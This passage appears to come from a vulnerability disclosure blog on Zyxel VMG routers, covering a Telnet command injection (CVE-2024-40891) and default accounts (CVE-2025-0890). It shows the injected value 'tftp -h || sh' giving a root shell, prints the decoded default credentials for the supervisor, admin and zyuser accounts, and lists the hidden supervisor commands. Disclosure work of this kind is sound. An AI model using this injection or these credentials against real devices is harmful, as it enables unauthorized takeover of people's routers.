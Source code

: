 flag:\\n\\n\`\`\`shell\\nalbinolobster@mournland:~$ telnet 192.168.0.1\\nTrying 192.168.0.1...\\nConnected to 192.168.0.1.\\nEscape character is '^\]'.\\nZyxel VMG4325-B10A\\nLogin: zyuser\\nPassword:\\n > tftp -h || sh\\ntftp: invalid option -- h\\nBusyBox v1.17.2 (2017-06-15 12:25:20 CST) multi-call binary.\\n\\nUsage: tftp \[OPTIONS\] HOST \[PORT\]\\n\\nTransfer a file from/to tftp server\\n\\nOptions:\\n -l FILE Local FILE\\n -r FILE Remote FILE\\n -g Get file\\n -p Put file\\n -g -t i -f filename server\_ip Get (flash) broadcom or whole image to modem\\n -g -t c -f filename server\_ip Get (flash) config file to modem\\n -p -t f -f filename server\_ip Put (backup) config file to tftpd server\\n\\n\\n\\nBusyBox v1.17.2 (2017-06-15 12:25:20 CST) built-in shell (ash)\\nEnter 'help' for a list of built-in commands.\\n\\n# ls -l\\ndrwxr-xr-x 3 supervis root 0 Jan 1 1970 app\\ndrwxr-xr-x 2 supervis root 0 Jun 15 2017 bin\\n-rw-r--r-- 1 supervis root 163928 Jun 15 2017 cferam.000\\ndrwxr-xr-x 4 supervis root 0 Jan 1 1970 data\\ndrwxrwxr-x 4 supervis root 0 Jun 15 2017 dev\\ndrwxr-xr-x 10 supervis root 0 Jun 15 2017 etc\\ndrwxr-xr-x 2 supervis root 0 Jan 1 1970 home\\ndrwxrwxr-x 6 supervis root 0 Jun 15 2017 lib\\nlrwxrwxrwx 1 supervis root 11 Jun 15 2017 linuxrc -> bin/busybox\\ndrwxr-xr-x 2 supervis root 0 Jan 1 1970 log\\ndrwxr-xr-x 2 supervis root 0 Jan 3 20:29 mnt\\ndrwxrwxr-x 5 supervis root 0 Jun 15 2017 opt\\ndr-xr-xr-x 90 supervis root 0 Jan 1 1970 proc\\ndrwxrwxr-x 2 supervis root 0 Jun 15 2017 sbin\\ndrwxr-xr-x 11 supervis root 0 Jan 1 1970 sys\\nlrwxrwxrwx 1 supervis root 8 Jun 15 2017 tmp -> /var/tmp\\ndrwxrwxr-x 4 supervis root 0 Jun 15 2017 usr\\ndrwxr-xr-x 14 supervis root 0 Jan 3 22:09 var\\n-rw-rw-r-- 1 supervis root 1446798 Jun 15 2017 vmlinux.lz\\ndrwxrwxr-x 4 supervis root 0 Jun 15 2017 webs\\n#\\n\`\`\`\\n\\nThis technique can be repeated against the other affected commands using various combinations of \[shell metacharacters\](https://www.gnu.org/software/bash/manual/html\_node/Definitions.html#index-metacharacter).\\n\\n# CVE-2025-0890: Default Credentials\\n\\nBy itself, an authenticated command injection has limited value to an attacker—especially over Telnet, which ideally should not be exposed to the internet (though, in reality, \[millions\](https://en.fofa.info/result?qbase64=cHJvdG9jb2w9InRlbG5ldCI%3D) of devices are). The impact of CVE-2024-40891 depends heavily on an authentication bypass or default credentials. Unfortunately, these affected devices appear to be provisioned with default accounts, all of which can be found in the device’s \`/etc/default.cfg\` file. Here is a snippet from our VMG4325-B10A:\\n\\n\`\`\`xml\\n\\n supervisor\\n enlhZDEyMzQ=\\n2\\n\\n broadband,wireless,homeNetworking,routing,qos,nat,dns,igmpSetting,halfBridge,intfGrp,usbService,firewall,macFilter,parentalControl,schedulerRule,certificates,ipsecVPN,log,trafficStatus,arpTable,routeTable,igmpGroupStatus,xdslStatistics,system,userAccount,remoteMGMT,tr069Client,tr064,time,emailNotification,logSetting,firmwareUpgrade,configuration,reboot,disagnostic,HelpDesk,wizard,sniffer,snmp\\n Administrator\\n 2\\n \\n admin\\n MTIzNAA=\\n 0\\n 1\\n \\n \\n\\n\\n 2\\n broadband,wireless,homeNetworking,routing,qos,nat,dns,igmpSetting,halfBridge,intfGrp,usbService,firewall,macFilter,parentalControl,schedulerRule,certificates,ipsecVPN,log,trafficStatus,arpTable,routeTable,igmpGroupStatus,xdslStatistics,system,userAccount,remoteMGMT,tr069Client,tr064,time,emailNotification,logSetting,firmwareUpgrade,configuration,reboot,disagnostic,HelpDesk,wizard,sniffer,snmp\\n User\\n 2\\n \\n zyuser\\n MTIzNAA=\\n 0\\n 1\\n \\n \\n\\n\\n\\n\`\`\`\\n\\nAs shown above, the VMG4325-B10A is provisioned with three accounts:\\n\\n1. supervisor:zyad1234 \\n2. admin:1234 \\n3. zyuser:1234\\n\\nThe \`supervisor\` credentials were previously documented under \[CVE-2017-18371\](https://nvd.nist.gov/vuln/detail/cve-2017-18371), but that CVE currently only associates the account with \[Zyxel P660HN-51\](https://www.amazon.com/Zyxel-ADSL-Wireless-Gateway-P660HN-51/dp/B0051SHXPQ) routers. However, we now see this vulnerability extending to the VMG series as well. The functionality of the \`supervisor\` user is poorly documented by CVE-2017-18371, so before proceeding, we’ll take a quick detour to explore it further.\\n\\nThese credentials are not visible via the web interface; notably, the \`supervisor\` account has additional functionality in the Telnet interface. As previously discussed, \`libcms\_cli.so\` handles Telnet commands. If the standard \`cli\_processCliCmd\` does not recognize a command, it falls back to the aptly named \`cli\_processHiddenCmd\`:\\n\\n!\[Decompiled Process Hidden Command Call\](/blog/zyxel-telnet-vulns/hiddenCmd.png){:width="100%"}\\n\\n\`cli\_processHiddenCmd\` handles a list of commands that are not listed in the \`help\` menu and are only available to the supervisor user. While the list of hidden commands is short, it includes several powerful options:\\n\\n1. dumpmem \\n2. ebtables \\n3. iptables \\n4. logread \\n5. setmem \\n6. sh\\n\\nNotably, the \`sh\` command provides a fully interactive \`ash\` shell, granting the user unrestricted access to the system.\\n\\n\`\`\`shell\\nalbinolobster@mournland:~/research/misc-exploits$ telnet 192.168.0.1\\nTrying 192.168.0.1...\\nConnected to 192.168.0.1.\\nEscape character is '^\]'.\\nZyxel VMG4325-B10A\\nLogin: supervisor\\nPassword:\\n > sh\\n\\n\\nBusyBox v1.17.2 (2017-06-15 12:25:20 CST) built-in shell (ash)\\nEnter 'help' for a list of built-in commands.\\n\\n#\\n\`\`\`\\n\\nWhile \`supervisor\` has hidden privileges and access to undocumented functionality, the provisioned \`zyuser\` is different. It is not a concealed account with secret commands but instead appears to be a secondary user with elevated privileges, despite being fully visible in the user